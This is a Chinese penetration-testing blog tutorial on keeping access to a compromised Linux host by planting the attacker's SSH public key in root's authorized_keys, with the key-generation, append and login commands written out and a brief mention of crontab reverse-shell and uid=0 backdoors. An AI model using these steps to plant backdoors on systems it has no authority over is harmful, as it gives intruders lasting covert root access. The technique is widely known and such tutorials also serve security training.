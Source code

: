 ```yaml
---
layout:     post
title:      "Linux下的ssh免密登录后门"
subtitle:   "欢迎浏览"
date:       2021-11-20 23:39:00
author:     "zhangsanjin"
header-img: "img/bg/hello_world.jpg"
catalog: true
tags:
- ssh免密
---
```



# 渗透测试|Linux下的ssh免密登录后门

[TRY](https://www.nctry.com/1500.html) 2020-02-26 2,848 [7](https://www.nctry.com/1500.html#comments)

# 后代人的权利远比当代人的欲望更重要。

来自：一言

var xhr = new XMLHttpRequest(); xhr.open('get', 'https://v1.hitokoto.cn/'); xhr.onreadystatechange = function () { if (xhr.readyState === 4) { var data = JSON.parse(xhr.responseText); var hitokoto = document.getElementById('hitokoto'); hitokoto.innerText = data.hitokoto; } } xhr.send();

## 前言

相信大家在做渗透测试的时候，会遇到后渗透阶段的权限维持问题，常见的linux后门有crontab后门（在计划任务里添加反弹shell任务），超级用户后门（也就是uid=0的用户），ssh免密登录后门等等等~~~![](/assets/Linux下的ssh免密登录后门/5.png)，当然你有能力的话，可以试试破解root密码~~这里我就详细的教大家如何利用ssh后门和计划任务后门（下次讲，这次懒得写了~）进行权限维持。（以下内容适合小白观看，大佬勿喷![](/assets/Linux下的ssh免密登录后门/3.png)）

[![渗透测试|Linux下的ssh免密登录后门](/assets/Linux下的ssh免密登录后门/20200225_151605_51.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_151605_51.jpg)

## 情景模拟

让我们假设一下，你已经通过目标主机的漏洞成功拿到了shell![](/assets/Linux下的ssh免密登录后门/36.png)，但是可能这个漏洞不知道什么时候就会被管理员修复，你也不知道root权限的密码，那咋办嘛？![](/assets/Linux下的ssh免密登录后门/61.png)哭？![](/assets/Linux下的ssh免密登录后门/15.png)寻找新的漏洞？![](/assets/Linux下的ssh免密登录后门/19.png)，当然不用这么麻烦，所以我们需要给目标主机留个后门，方便自己随时日进对方系统~

环境如下：

攻击机（本机）：kali    ip: 1.1.2.3

目标机：ubuntu   ip: 1.1.2.5

[![渗透测试|Linux下的ssh免密登录后门](/assets/Linux下的ssh免密登录后门/20200225_152447_11.gif)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_152447_11.gif)

## ssh免密登录后门

ssh免密登录就是在自己的攻击机上生成一个密钥，然后把他放进目标主机的ssh密钥存放文件里（个人理解~），然后攻击机就可以拿着这个密钥直接连接目标主机了，不需要密码，当然后门嘛，还是会有被发现的风险的~

1.在kali（自己的服务器）上生成密钥

Shell

1. ssh\-keygen \-b 4096 \-t rsa #直接三个回车搞定

复制 文本 高亮

[![渗透测试|Linux下的ssh免密登录后门](/assets/Linux下的ssh免密登录后门/20200225_160619_88.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_160619_88.jpg)

2.查看一下生成的密钥

[![渗透测试|Linux下的ssh免密登录后门](/assets/Linux下的ssh免密登录后门/20200225_160641_35.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_160641_35.jpg)

3.将密钥里的内容全部复制，注意是全部！然后复制到目标服务端的`authorized_keys`中，命令如下

注意：是在你需要留后门的主机上执行以下命令！

Shell

1. echo "你自己的密钥内容"\>>/root/.ssh/authorized\_keys #两个>>表示追加在文件后面
2. chmod 600 ~/.ssh/authorized\_keys #编辑完成后还得修改权限
3. chmod 700 ~/.ssh

复制 文本 高亮

详细操作可看下图：

[![渗透测试|Linux下的ssh免密登录后门](/assets/Linux下的ssh免密登录后门/20200225_161125_29.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_161125_29.jpg)

4.在攻击机上使用免密登录测试

Shell

1. ssh \-i /root/.ssh/id\_rsa root@目标ip

复制 文本 高亮

测试截图如下：

[![渗透测试|Linux下的ssh免密登录后门](/assets/Linux下的ssh免密登录后门/20200225_161300_80.gif)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_161300_80.gif)

可以看到不用密码就直接进入了目标服务器，好了时间也不早了，今天的教程到这里就结束了，下次再分享crontab计划任务后门。![](/assets/Linux下的ssh免密登录后门/33.png)

PS：本站只是分享技术，切勿进行违法操作，纯手打，希望转载表明出处，谢谢。

有趣提示：后门还是有被发现的风险哦。



参考：

https://www.nctry.com/?s=ssh%E5%85%8D%E5%AF%86